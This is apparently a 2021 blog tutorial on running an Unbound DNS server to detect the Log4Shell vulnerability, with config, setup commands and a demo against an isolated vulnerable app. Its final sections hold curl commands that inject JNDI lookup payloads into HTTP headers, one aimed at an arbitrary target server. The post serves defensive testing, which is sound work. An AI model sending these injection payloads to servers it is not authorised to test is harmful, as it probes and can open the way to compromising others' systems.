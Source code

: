 ```yaml
---
title: Check Log4Shell vulnerability using Unbound DNS server
excerpt: Check vulnerability without relying on third-party services
date: 2021-12-17
tags:
- security
- aws
---
```


Most of the publications discussing the Log4Shell/[Log4j](https://blogs.apache.org/foundation/entry/apache-log4j-cves) vulnerability ([[1]](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java), [[2]](https://www.lunasec.io/docs/blog/log4j-zero-day/), [[3]](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/), [[4]](https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/)) focus on the ability to instruct the JNDI component to load remote code or download payload using [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol). A less known fact is that Log4j also supports DNS protocol by default, at least in versions prior to 2.15.0.

Huntress, a cyber security company, created an easy-to-use tool at [log4shell.huntress.com](https://log4shell.huntress.com/) to detect whether your server is vulnerable using LDAP. Despite the assurance of transparency by the availability of [source code](https://github.com/huntresslabs/log4shell-tester) so you could host it yourself, there's no denying the fact that log4shell.huntress.com is a _third-party_ service; even if anyone could host it, not everyone has the ability to audit the source code. Another third-party service that is mentioned around is [dnslog.cn](http://www.dnslog.cn/) which detects (as the name implies) using DNS protocol.

Since the DNS request made by Log4j is just a simple DNS lookup—similar to a web browser's request—we can run any kind of DNS server: authoritative or recursive. Recursive DNS server is the easier option because it simply forwards request to upstream authoritative server(s). If a server is vulnerable, we'll see its IP address in the DNS server's query logs when we attempt the exploit.

## Setup DNS server

Unbound is a popular DNS server due to its simplicity. dnsmasq is another option, it was the default dns caching in Ubuntu before being replaced by systemd-resolved.

When installing a server (web, DNS, app, etc), Ubuntu usually starts the service immediately after installation. I prefer to properly configure a server before starting it, so I'm going to _mask_ it first to prevent that auto-start.

> Except for checking service status, log and dns query, all commands require `sudo` privilege.

```
systemctl mask unbound
```

Then, we can proceed to install and configure it.

```
apt update
apt install unbound
sudo -e /etc/unbound/unbound.conf.d/custom.conf
```

_`sudo -e` is preferred over `sudo nano` for [security reason](https://teddit.net/r/linux/comments/osah05/ysk_do_not_use_sudo_vimnanoemacs_to_edit_a_file/)._

Paste the following config.

``` yml
# Based on https://www.linuxbabe.com/ubuntu/set-up-unbound-dns-resolver-on-ubuntu-20-04-server
server:
  # the working directory.
  directory: "/etc/unbound"

  # run as the unbound user
  username: unbound

  # uncomment and increase to get more logging
  # verbosity: 2

  # log dns queries
  log-queries: yes

  # listen on all interfaces,
  interface: 0.0.0.0
  # comment out to support IPv6.
  # interface: ::0
  # answer queries from the local network only, change to your private IP
  # interface: 192.168.0.2

  # perform prefetching of almost expired DNS cache entries.
  prefetch: yes

  # respond to all IP
  access-control: 0.0.0.0/0 allow
  # IPv6
  # access-control: ::0/0 allow

  # respond to local network only, change the CIDR according to your network
  # access-control: 192.168.88.0/24 allow

  # localhost only
  # access-control: 127.0.0.1/24 allow

  # hide server info from clients
  hide-identity: yes
  hide-version: yes

remote-control:
  # Disable unbound-control
  control-enable: no

forward-zone:
  # Forward all queries to Quad9, use your favourite DNS
  name: "."
  forward-addr: 9.9.9.9
  forward-addr: 149.112.112.112
```

_`Ctrl + X` to quit, press `Y` to save, `Enter` to confirm._

> With the above config, Unbound will respond to _all_ IP, including _public_ IP if exposed to internet.

Since Unbound will listen on all interfaces, it'll interfere with systemd-resolved which listens on 127.0.0.53:53 by default. So, before we start Unbound, systemd-resolved needs to be disabled first.

```
systemctl disable --now systemd-resolved
```

We also need to add the server's hostname to `/etc/hosts`, otherwise `sudo` will take a long time to execute. If you're using AWS EC2, the hostname will be "ip-_a_-_b_-_c_-_d_" where _abcd_ is the private IP.

```
sudo -e /etc/hosts
# append this line
127.0.0.1 ip-a-b-c-d
```

The last step before we start the service is to configure the firewall to allow inbound DNS traffic. I recommend not to allow all IP (0.0.0.0, ::0), otherwise you'll get unwanted traffic. In EC2, that means the attached security group.

After we configure the firewall, we can proceed to unmask and start the DNS server.

```
systemctl unmask unbound
systemctl enable --now unbound
```

To see whether it's working, execute some queries:

```
# localhost
dig example.com @127.0.0.1

# other machine, same subnet
dig example.com @192.168.0.x

# other machine over internet
dig example.com @public-ip
```

Verify Unbound is logging queries,

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: 127.0.0.1 example.com. A IN
```

We are now ready to test Log4shell vulnerability.

## Demo vulnerable app

> This is an optional step to demonstrate Log4shell.

A demo vulnerable is available as a Docker image at [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app). For best security practice, I recommend:

1. Run it in an isolated network or environment.
2. Clone (the repo) and build it, instead of running the prebuild image.

After building the image and just before you run it, configure the relevant firewall to restrict outbound connection to the Unbound DNS server only. If you prefer to use port 80 for the app server, run `docker run -p 80:8080 --name vulnerable-app vulnerable-app`. Open inbound port 8080 (or port 80) in the firewall.

To test the app server is reachable, send a test request.

```
curl -IL app-server-ip:8080 -H 'X-Api-Version: foo'
```

The app server should respond HTTP 200. The header must be `X-Api-Version` because that's what configured in the log4shell-vulnerable-app.

Once the connection is verified, we can now instruct it to make a DNS request to our Unbound DNS.

```
curl -L app-server-ip:8080 -H 'X-Api-Version: ${jndi:dns://dns-server-ip/evil-request}'
```

In the Unbound's log, the query should be listed.

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: app-server-ip evil-request. A IN
```

If you want to see the query log in realtime, `journalctl -xe -u unbound -f`. If it's not listed, check the inbound firewall rule applied to the DNS server.

## Is that server vulnerable?

```
curl -L https://target-server-domain -H 'User Agent: ${jndi:dns://dns-server-ip/should-not-show-up-in-the-log}'
```
